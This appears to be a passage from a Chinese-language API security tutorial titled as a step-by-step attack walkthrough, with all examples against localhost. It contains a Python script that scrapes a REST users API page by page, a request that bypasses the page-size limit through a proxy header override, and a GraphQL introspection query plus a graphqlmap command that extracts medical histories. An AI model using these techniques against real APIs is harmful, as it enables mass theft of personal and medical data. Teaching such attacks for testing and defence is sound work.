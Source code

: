 ## 四、分步攻击演练
### 案例1：REST API全量数据提取
1. 发现分页参数规律：
```python
import requests

base_url = "http://localhost:8080/api/v1/users"
session = requests.Session()
session.headers.update({'Authorization': 'Bearer eyJhbG...'})

def extract_users():
    page = 1
    while True:
        res = session.get(f"{base_url}?page={page}&size=500")
        if not res.json().get('data'):
            break
        # 存储到Elasticsearch
        process_data(res.json()['data'])
        page += 1
```

2. 绕过分页限制：
```http
GET /api/v1/users?size=9999 HTTP/1.1
X-Original-Url: /api/v1/users?size=10  # 利用反向代理参数覆盖
```

### 案例2：GraphQL深度查询攻击
1. 构造恶意查询：
```graphql
query {
  __schema {
    types {
      name
      fields {
        name
        type {
          name
          kind
        }
      }
    }
  }
}
```
2. 自动化数据提取：
```bash
cat <<EOF | graphqlmap -u http://localhost:8080/graphql -q -
{
  users {
    id
    medicalHistory {
      diagnoses
      prescriptions {
        drug { 
          chemicalFormula
        }
      }
    }
  }
}
EOF
```
